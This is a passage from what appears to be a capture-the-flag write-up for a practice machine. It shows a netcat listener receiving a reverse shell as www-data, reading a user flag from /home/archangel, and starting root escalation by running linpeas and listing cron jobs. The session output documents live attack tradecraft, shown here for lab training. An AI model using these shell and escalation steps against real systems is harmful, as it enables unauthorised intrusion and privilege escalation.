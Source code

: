 Set up our `netcat` listener and wait for the shell to come back.

```bash
$ nc -lnvp 5555                                                                                                                                                        1 ⨯
listening on [any] 5555 ...
connect to [10.11.25.205] from (UNKNOWN) [10.10.78.209] 57854
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

User.txt:

```bash
www-data@ubuntu:/var/www/html/mafialive/flags$ cd /home
cd /homes
www-data@ubuntu:/home$ ls
archangel
www-data@ubuntu:/home$ cd archangel
cd archangel
www-data@ubuntu:/home/archangel$ ls
ls
myfiles  secret  user.txt
www-data@ubuntu:/home/archangel$ cat user.txt
cat user.txt
thm{REDACTED}
```

## Root the machine
Running linpeas.

```bash
$ ./linpeas.sh
...
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs
-rw-r--r-- 1 root root  767 Nov 20 15:00 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x  2 root root 4096 Nov 16 22:49 .
drwxr-xr-x 81 root root 4096 Feb  4 17:45 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder
-rw-r--r--  1 root root  607 Jun  3  2013 john
-rw-r--r--  1 root root  712 Jan 18  2018 php
-rw-r--r--  1 root root  190 Nov 16 16:07 popularity-contest

/etc/cron.daily:
total 52
drwxr-xr-x  2 root root 4096 Nov 16 20:46 .
drwxr-xr-x 81 root root 4096 Feb  4 17:45 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder
-rwxr-xr-x  1 root root  539 Jul 16  2019 apache2
-rwxr-xr-x  1 root root 1478 Apr 20  2018 apt-compat
-rwxr-xr-x  1 root root  355 Dec 29  2017 bsdmainutils
-rwxr-xr-x  1 root root 1176 Nov  3  2017 dpkg
-rwxr-xr-x  1 root root  372 Aug 21  2017 logrotate
-rwxr-xr-x  1 root root 1065 Apr  7  2018 man-db
-rwxr-xr-x  1 root root  538 Mar  1  2018 mlocate
-rwxr-xr-x  1 root root  249 Jan 25  2018 passwd
-rwxr-xr-x  1 root root 3477 Feb 21  2018 popularity-contest
-rwxr-xr-x  1 root root  246 Mar 21  2018 ubuntu-advantage-tools

/etc/cron.hourly:
total 12
```